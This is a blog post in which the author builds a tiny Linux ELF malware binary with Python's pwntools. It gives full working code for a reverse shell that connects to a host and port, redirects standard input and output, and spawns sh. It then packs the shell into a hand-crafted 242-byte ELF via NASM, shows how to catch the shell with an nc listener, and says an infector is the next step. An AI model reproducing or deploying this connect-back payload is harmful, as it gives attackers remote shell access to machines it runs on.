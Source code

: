 ```yaml
---
id: 499
title: Generating small elf binaries for fun and profit
date: 2018-04-30T01:33:41+00:00
author: paolo
layout: post
guid: http://paolo.zone/blog/?p=499
permalink: /2018/04/30/generatins-small-elf-binaries-for-fun-and-profit/
categories:
  - en-US
tags:
  - hacks
  - linux
  - malware
  - osx
---
```

The ideia was to code an ELF malware smaller then **1kb** to insert it, encoded, inside a bacteriophage modded with _CRISPR/Cas9_ bringing an artistic view of a biologic infector containing a digital infector, an ode to singularity.

Well, to begin with, we gonna use python&#8217;s **pwntool** to generate the base code. On linux, on my test box at digitalocean, I installed with pip. Then,

<pre class="brush: python; title: ; notranslate" title="">paolo@kabbalah:~$ python
Python 2.7.12 (default, Dec  4 2017, 14:50:18)
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
&gt;&gt;&gt; import os, random, subprocess, string
&gt;&gt;&gt; from pwn import *
&gt;&gt;&gt;
&gt;&gt;&gt; ipaddr = '127.0.0.1'
&gt;&gt;&gt; port = 31337
&gt;&gt;&gt; outfile = 'connectback'
&gt;&gt;&gt;
&gt;&gt;&gt; context(arch='x86_64')
&gt;&gt;&gt;
&gt;&gt;&gt; code = shellcraft.socket(network='ipv4', proto='tcp')
&gt;&gt;&gt; code += shellcraft.connect(ipaddr, port, network='ipv4')
&gt;&gt;&gt; code += shellcraft.dup2('rbp', 0)
&gt;&gt;&gt; code += shellcraft.dup2('rbp', 1)
&gt;&gt;&gt; code += shellcraft.dup2('rbp', 2)
&gt;&gt;&gt; code += shellcraft.sh()
&gt;&gt;&gt;
&gt;&gt;&gt; elf = ELF.from_assembly(code)
[*] '/tmp/pwn-asm-nzvW_p/step3'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x10000000)
    RWX:      Has RWX segments
&gt;&gt;&gt; elf.save('lnxmw1')
&gt;&gt;&gt; quit()
paolo@kabbalah:~$ ls -alh lnxmw1
-rw-rw-r-- 1 paolo paolo 4.7K May  1 01:35 lnxmw1
paolo@kabbalah:~$ file lnxmw1
lnxmw1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped
paolo@kabbalah:~$
</pre>

As we can see, the binary was ok but too big(**4.7kb**), we have to improve it but first I want to install everything on my macbook. To install the environment on my `OSX sierra` was a little tricky as pip3 version was not working. I solved with:

<pre class="brush: plain; title: ; notranslate" title="">$ python3 -m pip install git+https://github.com/arthaud/python3-pwntools.git
</pre>

after installed, I also had to install **nasm** with **brew install nasm**. So, I had a working environment. The binary tho was still too big. Then, I start to look for some `elf` binary templates to hack into. After checking `/usr/include/elf.h`, _readelf_ and data from generated asm from _pwn_, I endded up with the following script:

<pre class="brush: python; title: ; notranslate" title="">import os, random, subprocess, string
from pwn import *
ipaddr = '127.0.0.1'
port = 31337
outfile = 'binarycrazyness'
context(arch='x86_64')
code = shellcraft.socket(network='ipv4', proto='tcp')
code += shellcraft.connect(ipaddr, port, network='ipv4')
code += shellcraft.dup2('rbp', 0)
code += shellcraft.dup2('rbp', 1)
code += shellcraft.dup2('rbp', 2)
code += shellcraft.sh()
defines=''
for sym in 'SYS_socket', 'SOCK_STREAM', 'SYS_connect', 'SYS_dup2', 'SYS_execve':
    defines += '%s equ %d\n' % (sym, getattr(constants, sym).real)
# for OSX don't have addressFamily.AF_INET (which is, for ipv4, 2) just set it here:
defines += 'AddressFamily.AF_INET equ 2\n'

nasm_code = ("""
BITS 64
  org 0x400000

ehdr:           ; Elf64_Ehdr
  db 0x7f, "ELF", 2, 1, 1, 0 ; e_ident
  times 8 db 0
  dw  2         ; e_type
  dw  0x3e      ; e_machine
  dd  1         ; e_version
  dq  _start    ; e_entry
  dq  phdr - $$ ; e_phoff
  dq  0         ; e_shoff
  dd  0         ; e_flags
  dw  ehdrsize  ; e_ehsize
  dw  phdrsize  ; e_phentsize
  dw  1         ; e_phnum
  dw  0         ; e_shentsize
  dw  0         ; e_shnum
  dw  0         ; e_shstrndx
  ehdrsize  equ  $ - ehdr

phdr:           ; Elf64_Phdr
  dd  1         ; p_type
  dd  5         ; p_flags
  dq  0         ; p_offset
  dq  $$        ; p_vaddr
  dq  $$        ; p_paddr
  dq  filesize  ; p_filesz
  dq  filesize  ; p_memsz
  dq  0x1000    ; p_align
  phdrsize  equ  $ - phdr

_start:
""" + defines
    + code.replace('/*', '; /*')
          .replace('dword ptr [', 'dword [')
    +
"""

filesize  equ  $ - $$
""")

with open('%s.asm' % "".join([random.choice(string.ascii_letters) for i in range(15)]), 'w') as f:
    f.write(nasm_code)
    f.flush()
    subprocess.Popen(['nasm', '-f', 'bin', '-o', outfile, f.name]).wait()
    os.remove(f.name)
    os.chmod(outfile, 0o0755)
</pre>

Now, let&#8217;s run this file

<pre class="brush: bash; title: ; notranslate" title="">paolo@daath ~/Workspace $ python3 gen.py
paolo@daath ~/Workspace $ ls -alH 
-rwxr-xr-x  1 paolo  staff  242 Apr 30 22:07 binarycrazyness
paolo@daath ~/Workspace $ file binarycrazyness
binarycrazyness: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, corrupted section header size
paolo@daath ~/Workspace $
</pre>

this **corrupted section header** size exist due to the forced ASM.

To test it, on a `screen`, run

<pre class="brush: plain; title: ; notranslate" title="">$ nc -l 31337
</pre>

and, on another, run the binary itself. It&#8217;s beautiful and just **242 bytes!!!**

Next steps are to use GETHOSTBYNAME and write an infector.

See you!
